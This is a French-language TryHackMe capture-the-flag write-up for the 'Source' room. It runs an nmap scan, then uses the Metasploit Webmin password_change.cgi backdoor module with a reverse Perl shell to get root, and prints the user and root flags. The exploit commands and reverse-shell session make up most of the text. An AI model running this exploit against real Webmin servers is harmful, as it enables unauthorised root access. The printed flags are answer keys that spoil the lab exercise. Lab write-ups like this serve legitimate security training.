

# Source #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.182.162 source.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A source.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-30 17:19 CEST
Nmap scan report for source.thm (10.10.182.162)
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/30%OT=22%CT=1%CU=30563%PV=Y%DS=2%DC=T%G=Y%TM=6104189
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   34.66 ms 10.9.0.1
2   35.00 ms source.thm (10.10.182.162)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.98 seconds

```

Avec le scan avec nmap, on remarque plusieurs services : 
Le service SSH sur port  22.  
Le service http sur le port 10000.  

Le sur le port 10000 on remarque Miniserv 1.890 (Webmin).      



Sur la page on voit que le protocol est en https.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
msf6 > search  webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


Interact with a module by name or index. For example info 5, use 5 or use exploit/linux/http/webmin_backdoor
msf6 > use 5
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_backdoor) > options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)

msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS source.thm
RHOSTS => source.thm
msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.9.228.66
LHOST => 10.9.228.66
msf6 exploit(linux/http/webmin_backdoor) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.9.228.66:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.9.228.66:4444 -> 10.10.182.162:60444) at 2021-07-30 18:07:04 +0200
whoami
root
```

On sélectionne l'exploit, on le configure puis on l'exécute.  

**user.txt** 

```bash
pwd
/usr/share/webmin
ls /home/
dark
cat /home/dark/user.txt       
THM{SUPPLY_CHAIN_COMPROMISE}
```

On recherche l'utilisateur et on regarde le flag.  
La réponse est : THM{SUPPLY_CHAIN_COMPROMISE}   

**root.txt**

```bash
whoami
root
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```

On voit que l'on bien les droits root.  
Il reste plus que a regarder le fichier qui contient le flag.   

La réponse est : THM{UPDATE_YOUR_INSTALL}   